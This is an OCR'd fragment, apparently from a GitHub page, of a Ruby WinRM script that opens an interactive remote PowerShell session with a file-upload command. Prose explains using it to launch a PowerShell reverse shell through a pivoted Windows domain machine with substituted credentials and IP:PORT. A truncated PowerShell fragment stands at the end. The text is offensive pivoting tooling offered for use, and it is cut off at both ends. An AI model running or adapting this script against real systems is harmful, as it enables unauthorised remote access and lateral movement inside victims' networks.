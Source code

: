 ```

end

command=""

conn.shell(:powershell) do |shell|

until command == "exit\n" do

output = shell.run("-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')")

print(output.output.chomp)

command = gets

if command.start_with?('UPLOAD') then

upload_command = command.tokenize

print("Uploading " + upload_command[1] + " to " + upload_command[2])

file_manager.upload(upload_command[1], upload_command[2]) do |bytes_copied, total_bytes, local_path, remote_path|

puts("#{bytes_copied} bytes of #{total_bytes} bytes copied")

end

command = "echo `nOK`n"

end

output = shell.run(command) do |stdout, stderr|

STDOUT.print(stdout)

STDERR.print(stderr)

end

end

puts("Exiting with code #{output.exitcode}")

end
```

The below script is useful if you want to execute a powershell reverse shell that returns shell on a different pivoted machine. You need to username and pass required to log in to the pivoted machine \[the first pivoted one] usually windows. Substitute IP:PORT with ip and port information of the machine that will be used to forward the connection to the pivoted machine. In the script, startin from \[conn.shell] you need username and password of the \[next pivoted machine] from which you will return a reverse shell using powershell. Substitute the username and password after \[conn.shell] part and also substitute computername and domain name as this works on in a domain joined machine.


[Text.Encoding]: :ASCII)) .ReadToEnd() ;"